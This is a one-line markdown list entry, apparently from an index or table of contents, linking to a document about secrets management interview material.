- [Secrets Management](secrets-management-interview.md)
